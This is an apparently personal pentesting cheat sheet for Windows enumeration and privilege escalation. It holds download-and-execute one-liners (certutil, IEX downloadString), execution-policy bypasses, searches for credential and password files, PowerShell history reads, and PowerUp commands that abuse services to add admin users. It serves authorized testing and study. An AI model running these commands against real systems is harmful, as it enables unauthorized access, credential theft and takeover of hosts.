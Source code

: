 ## Windows Enumeration

- [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
- [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
- [Windows Privesc Checker](https://www.kali.org/tools/windows-privesc-check/)
- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)

### Path fix

```
set PATH=C:\Windows;C:\Windows\system32;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;%PATH%

Get-ExecutionPolicy -List
Set-ExecutionPolicy Unrestricted
```
### Powershell location

```
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe

C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```
### Writable Paths

```
C:\Windows\Temp

C:\Users\<USER>\Desktop\

C:\Users\Public\

C:\Documents and Settings\Public\

C:\Documents and Settings\<USER>\Desktop\
```
### PS styles

```
PS> $host

> powershell -c <cmd>

> powershell.exe -exec bypass -Command <>

```


### Cmds

```
# download file

certutil.exe -urlcache [-split] -f <source> <destination>

PS> wget <source> -OutFile <dest>

PS> Invoke-WebRequest -Uri <source> -Outfile <out-path>

powershell -c (New-Object System.Net.WebClient).downloadFile('<source>', '<dest>')

powershell -exec bypass IEX(New-Object Net.WebClient).downloadString('/shell.ps1')

wget.vbs https://gist.github.com/sckalath/ec7af6a1786e3de6c309

#run file

> ren <src> <dest>

PS> Start-Process <file.exe>

# rename

PS> Rename-Item -Path <file> -NewName <new-file>

# move

> copy /Y <src> <dest>

PS> Move-Item -Path <src> -Destination <dest>

# /E copies entire dir-structure

> robocopy <src> <dest> /E

# delete

PS> Remove-Item -Path <file> [-recursive]

```

### PS shorthand

```
# get child items

PS> gci [--recurse]

# get content

PS> gc FILE
```
### Arch based windows directory structure

| Session type   | 32 bit folder       | 64 bit folder         |
| -------------- | ------------------- | --------------------- |
| 32 bit session | C:\Windows\system32 | C:\Windows\sysNative\ |
| 64 bit session | C:\Windows\sysWOW64 | C:\Windows\system32\  |

### Manual

```

whoami # username/hostname
whoami /groups # check user is in which group

net user
net user <username>
Get-LocalUser # Powershell

net localgroup
net localgroup <groupname>
Get-localgroup # Powershell

systeminfo
netstat -ano

# Installed Apps # Powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

Get-Process # Powershell - running process
Get-Process | Select ProcessName,Path # With Path

# Powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue

# Powershell
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue

# Default xampp passwords
type C:\xampp\passwords.txt
type C:\xampp\mysql\bin\my.ini

# Change username
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

Get-History # Powershell History
(Get-PSReadlineOption).HistorySavePath # Powershell History

```

### Automate

```

winPEASx86.exe or winPEASx64.exe are best

Then

windows-privesc-check2.exe

Otherwise,

powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,CSV,HTML,XML"

or

./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo win7sp1-systeminfo.txt
./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'





```
### More Automate

### PowerUp

1. **Download and Import the Script:**
    
    - First, you need to download the `PowerUp.ps1` script from the PowerSploit repository. You can do this by cloning the PowerSploit repository from GitHub or by downloading the script directly.
        
    - Once you have the script, you can import it into your PowerShell session using the `Import-Module` cmdlet.
        
                
        `Import-Module ./Path/To/PowerUp.ps1`
        
2. **Run Functions to Find Vulnerabilities:**
    
    - `PowerUp.ps1` offers a variety of functions to check for common misconfigurations that can lead to privilege escalation. For example:
        
        - **Invoke-AllChecks:** This function runs all current escalation checks and returns a consolidated object with the results.
            
                        
            `Invoke-AllChecks`
            
        - **Get-ServiceUnquoted:** This function checks for services with unquoted paths that also have a space in their path. This can potentially lead to privilege escalation.
            
                        
            `Get-ServiceUnquoted`
            
        - **Write-UserAddMSI:** This function generates an MSI file in the specified path that prompts for installation. When installed, it adds a local or domain user with the specified username and password.
            
                        
            `Write-UserAddMSI -UserName "NewAdminUser" -Password "P@ssword!"`
            
1. **Write-ServiceBinary**: This function writes out a binary that adds a local admin user or executes a custom command when a service with an unquoted path (and a writable space in the path) is started.
    
        
    `Write-ServiceBinary -Name 'VulnerableServiceName' -Path 'C:\Path\To\Output\Binary.exe'`
    
2. **Invoke-ServiceAbuse**: This function abuses writable service binaries to write out a payload that adds a local admin user.
    
        
    `Invoke-ServiceAbuse -Name 'VulnerableServiceName' -UserName 'NewAdminUser'`
    
3. **Get-ModifiablePath**: This function finds paths that are modifiable by the current user and are in the system's PATH environment variable. This can be exploited if a service or application executes a binary from a directory that the user can write to.
    
        
    `Get-ModifiablePath`



